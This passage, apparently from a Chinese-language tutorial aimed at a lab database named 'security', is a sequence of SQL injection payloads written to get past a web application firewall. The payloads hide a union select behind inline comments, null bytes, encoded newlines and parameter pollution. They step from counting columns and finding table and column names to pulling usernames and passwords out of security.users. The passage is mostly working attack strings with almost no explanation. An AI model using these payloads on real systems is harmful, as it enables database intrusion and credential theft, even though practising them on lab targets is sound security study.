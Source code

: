```
`#字段数``?id=1/*%00*/%23a%0A/*!/*!order*/+/*%00*/%23a%0A/*!/*!by+3*/--+`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#数字列``?id=-1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#数据库``?id=-1+union/*%00*/%23a%0A/*!/*!select 1,database%23%0a(),3*/;%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479;%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273;%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0a0x7E,username,password),3 from security.users;%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

### **第三种：/\*\*&id=-1%20union%20select%201,2,3%23\*/**

  

```
`#字段数：``?id=1/**&id=1%20order by 3%23*/`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
